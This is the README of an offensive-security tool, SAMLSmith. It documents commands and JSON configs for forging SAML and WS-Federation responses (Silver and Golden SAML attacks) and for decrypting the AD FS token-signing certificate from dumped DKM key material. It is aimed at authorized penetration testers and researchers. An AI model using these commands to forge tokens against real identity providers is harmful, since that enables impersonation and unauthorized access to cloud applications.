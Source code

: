 # SAMLSmith
<img src="assets/Logo.png" width="25%" height="25%">

[![.NET](https://img.shields.io/badge/.NET-6.0-blue.svg)](https://dotnet.microsoft.com/download/dotnet/6.0)


SAMLSmith is a C# tool for generating custom SAML responses and implementing Silver SAML and Golden SAML attacks. It provides comprehensive functionality for security researchers and penetration testers working with SAML-based authentication systems.

For detailed information about Silver SAML, see: [Meet Silver SAML, Golden SAML In the Cloud](https://www.semperis.com/blog/meet-silver-saml/)



## Usage

SAMLSmith provides four primary commands for different operational scenarios:

| Command | Purpose | Input Method |
|---------|---------|--------------|
| `generate` | SAML response generation | Command line parameters |
| `generateJSON` | SAML response generation | JSON configuration file |
| `generateWSJSON` | WS-Federation response generation | JSON configuration file |
| `generatePFX` | Certificate extraction | AD FS encrypted materials |

## Commands

### generate

Generate SAML responses using command line parameters:

**Parameters:**
- `--pfxPath` - Path to the PFX certificate file
- `--pfxPassword` - Password for the PFX file (optional)
- `--idpid` - Identity Provider Identifier
- `--recipient` - SAML response recipient URL
- `--subjectnameid` - Subject NameID in the SAML response
- `--audience` - Audience for the SAML response
- `--attributes` - Claims/attributes in key=value,key=value format
- `--inResponseTo` - InResponseTo parameter (optional)

**Example:**
```bash
SAMLSmith.exe generate --pfxPath C:\certs\signing.pfx --pfxPassword password123 --idpid https://sts.company.com/adfs/services/trust --recipient https://app.company.com/sso/saml --subjectnameid user@company.com --audience https://app.company.com --attributes "upn=user@company.com,name=John Doe,email=user@company.com"
```

### generateJSON

Generate SAML responses using JSON configuration files:

**JSON Configuration Structure:**
```json
{
    "pfxPath": "C:\\certs\\signing.pfx",
    "pfxPassword": "password123",
    "idpid": "https://sts.company.com/adfs/services/trust",
    "recipient": "https://app.company.com/sso/saml",
    "subjectnameid": "user@company.com",
    "audience": "https://app.company.com",
    "inResponseTo": "optional_response_id",
    "attributes": {
        "http://schemas.microsoft.com/identity/claims/tenantid": "tenant-guid",
        "http://schemas.microsoft.com/identity/claims/objectidentifier": "user-guid",
        "http://schemas.microsoft.com/identity/claims/displayname": "John Doe",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "user@company.com",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name": "John Doe"
    }
}
```

**Usage:**
```bash
SAMLSmith.exe generateJSON --jsonFile config.json
```

### generateWSJSON

Generate WS-Federation responses using JSON configuration files. Note that the attributes format differs from the SAML JSON format:

**JSON Configuration Structure:**
```json
{
    "pfxPath": "C:\\certs\\signing.pfx",
    "pfxPassword": "password123",
    "idpid": "https://sts.company.com/adfs/services/trust",
    "recipient": "https://app.company.com/sso/saml",
    "subjectnameid": "user@company.com",
    "audience": "https://app.company.com",
    "inResponseTo": "optional_response_id",
    "attributes": {
        "http://schemas.microsoft.com/identity/claims/tenantid": "tenant-guid",
        "http://schemas.microsoft.com/identity/claims/objectidentifier": "user-guid",
        "http://schemas.microsoft.com/identity/claims/displayname": "John Doe",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "user@company.com",
        "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name": "John Doe"
    }
}
```

**Important:** For WS-Federation, the `attributes` field uses a comma-separated string format rather than a JSON object structure.

**Usage:**
```bash
SAMLSmith.exe generateWSJSON --jsonFile ws-config.json
```

### generatePFX

Extract usable certificate files from AD FS encrypted materials. Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable PFX certificate file for token signing:

**Parameters:**
- `--encryptedPFXPath` - Path to the EncryptedPFX blob from AD FS configuration database
- `--dkmKeyPath` - Path to the DKM decryption key from Active Directory
- `--pfxOutputPath` - Output path for the decrypted PFX certificate file

**Example:**
```bash
SAMLSmith.exe generatePFX --encryptedPFXPath C:\dumps\EncryptedPfx.bin --dkmKeyPath C:\dumps\DkmKey.bin --pfxOutputPath C:\output\signing_cert.pfx
```

## Credits

This tool includes components translated from the Python tool [ADFSpoof](https://github.com/mandiant/ADFSpoof) created by Doug Bienstock while at Mandiant FireEye, licensed under Apache License 2.0. The `EncryptedPFXDecryptor` class is a C# translation of the PFX decryption functionality from ADFSpoof.

## References

- [Meet Silver SAML, Golden SAML In the Cloud - Semperis](https://www.semperis.com/blog/meet-silver-saml/)
- [Golden SAML Attack Technique - CyberArk](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)
- [ADFSpoof - Original Python Implementation](https://github.com/mandiant/ADFSpoof)

## Legal Notice


This project is distributed under the terms of the Apache 2.0 license. It is provided for informational purposes and the responsible remediation of security vulnerabilities. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not guarantee accuracy or completeness and disclaims any liability arising from the use of this project.
This tool is intended for authorized security testing and research purposes only. Users must ensure they have proper authorization before testing against any systems. The authors assume no responsibility for misuse of this tool.
